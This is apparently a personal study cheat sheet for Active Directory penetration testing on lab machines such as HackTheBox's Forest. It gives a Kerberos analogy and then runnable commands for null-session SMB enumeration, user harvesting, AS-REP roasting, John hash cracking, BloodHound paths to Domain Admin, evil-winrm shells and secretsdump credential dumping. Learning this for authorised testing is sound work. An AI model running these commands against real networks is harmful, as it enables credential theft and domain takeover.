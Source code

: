 
https://orange-cyberdefense.github.io/ocd-mindmaps/img/pentest_ad_dark_2023_02.svg

Kerberos:
	Going to a gig
	Go to Box Office and get ticket
	Box Office checks your ID
	Go to venue, they confirm your ticket and ID
	Venue gives you your badge with access


Nmap:
	Key Ports
	88 - Kerberos
	389 - LDAP
	636 - LDAPS (encrypted)

	Check domain name

crackmapexec:
	crackmapexec smb <ip>
	crackmapexec smb <ip> -u '' -p '' (Null session, like Anonymous on FTP)
	crackmapexec smb <ip> -u guest -p ''
	crackmapexec smb <ip> -u '' -p '' --shares

smbmap:
	smbmap -H <ip> (looking for shares)

enum4linux:
	enum4linux <ip> (looking for potential usernames)
	Save usernames as file

impacket:
	If you have access to IPC$
	impacket-lookupsid vulnnet-rst.local/guest@10.10.111.177
	impacket-lookupsid guest@10.10.111.177 | tee users.txt

ASREP Roast:
	If we get usernames we move onto ASREP Roasting
	AS-REQ first, then you get the AS-REP
	Hoping Box Office doesn't check our ID and gives us a ticket (TGT Ticket Granting Ticket)
	We can't use the ticket as we still need the password and it's time sensitive (venue will check our ID)
	
	impacket-GetNPUsers -dc-ip <ip> -request -usersfile <username file> <domain e.g. htb.local/>
	Save any positive results as files (userhash)

John the Ripper:
	john --wordlist=/usr/share/wordlists/rockyou.txt <userhash.txt>

Bloodhound:
	bloodhound-python -c All (Use DCOnly to be quieter) -dc <domain controller e.g. FOREST.htb.local> -gc <global catalogue e.g. FOREST.htb.local> -ns <ip> -d <domain e.g. htb.local> -u <username> -p <'password'>

	This will grab a load of json files

	neo4j:
		neo4j console
		Check port (bolt enabled on <port>)
		navigate to http://localhost:<port>
		Default username and password are both neo4j

	Start Bloodhound
		Upload the json files
		Search for node e.g. htb.local for general info
		Search for the compromised user, right click and mark as "owned"
		Analysis Tab:
			Find all Domain Admins
			Shortest Path to Domain Admins from Owned Principals
		WinDacl - dc_sync (pretend to be a new Domain Controller and get all credentials)

crackmapexec:
	See if we can execute commands
	crackmapexec smb <ip> -u 'username' -p 'password' -x whoami

	crackmapexec winrm <ip> -u 'username' -p 'password'
	If succesful, user evil-winrm to get a shell

evil-winrm: Like SSH
	evil-winrm -i <ip> -u <'username'> -p <'password'>

Powerview: Install if needed


impacket-secretsdump htb.local/john:'password123'@10.10.10.161